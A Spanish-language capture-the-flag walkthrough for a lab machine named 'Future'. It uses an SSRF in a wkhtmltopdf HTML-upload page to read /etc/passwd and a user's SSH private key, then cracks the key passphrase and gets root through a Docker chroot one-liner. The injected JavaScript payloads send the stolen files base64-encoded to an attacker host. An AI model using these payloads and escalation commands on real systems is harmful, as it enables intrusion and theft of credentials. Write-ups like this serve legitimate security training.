

Future
Esta maquina presenta lo siguiente:
Se ve los siguientes puertos abiertos:
22,80
Por lo que nos ponemos a verificar las pagina del purto 80
Por lo que procedemos o a interactuar o buscar directorios con gobuster
Gobuster:
gobuster dir -u http://IP/ -w "direccion del diccionario" -x .php,.html
Interactuar:
En ambos casos existe la pagina homework.html

Observamos que es una pagina para subir codigo html asi que lo subimos y lo interceptamos con burp-suite
Vemos que se sube con previsualizacion del codigo posible SSRF
realizamos una solicitud y nos ponemos a la escucha por el mismo puerto para ver si podemos conectarnos
Observamos de que la pagina usa wkhtmltopdf por lo que podemos buscar una forma de explotar esa herramienta y es un SSRF por lo que ejecutamos en la captura lo siguiente:
"Todo dentro de una etiqueta script"
var readfile = new XMLHttpRequest(); // Read the local file
var exfil = new XMLHttpRequest(); // Send the file to our server
readfile.open("GET","file:///etc/passwd", true);
readfile.send();
readfile.onload = function() {
if (readfile.readyState === 4) {
var url = 'http://IPatac:PORT/?data='+btoa(this.response);
exfil.open("GET", url, true);
exfil.send();
}
}
readfile.onerror = function(){document.write('Oops!');}
y nos volvemos a colocar a la escucha
nc -lnpv 443
Nos va allegar el siguiente contenido al enviar desde el burp-suite
copiamos y pasamos por base64 -d
echo"TEXTO"|base64 -d
filtramos y encontramos 2 usuarios que nos podrian interesar
Intentamos obtener su llave de ssh por el mismo medio
"Todo dentro de una etiqueta script"
var readfile = new XMLHttpRequest(); // Read the local file
var exfil = new XMLHttpRequest(); // Send the file to our server
readfile.open("GET","file:///home/marty.mcfly/.ssh/id_rsa", true);
readfile.send();
readfile.onload = function() {
if (readfile.readyState === 4) {
var url = 'http://IPatac:PORT/?data='+btoa(this.response);
exfil.open("GET", url, true);
exfil.send();
}
}
readfile.onerror = function(){document.write('Oops!');}
realizamos igual por base64 y lo pasamos a un archivo
echo"TEXTO"|base64 -d > id_rsa
Ahora le damos los permisos y la usamos por ssh
chmod 600 id_rsa
Pero tiene contraseña asi que la crackeamos
ssh2jhon id_rsa > hash
ahora realizamos la wordlist ya que no se encuentra en el rockyou
cewl "paginas encontradas con gobuster"> wordlist1
Y los unimos
cat wordlist* > wordlistcomplete.txt
y ahora lo crackeamos
jhon -w=wordlistcomplete.txt hash
Y obtenemos la contraseña
Volvemos a conectarnos por ssh
Procedemos a elevar privilegios por lo que buscamos con find lo que podemos ejecutar como root
find / -perm -4000 2>/dev/null
Vemos que Tenemos a Docker para ejecutar como root asi que usamos
GTFOBins
/usr/bin/docker docker run -v /:/mnt --rm -it alpine chroot /mnt bash
Con esto la maquina esta completa revisa las carpetas de los usuarios.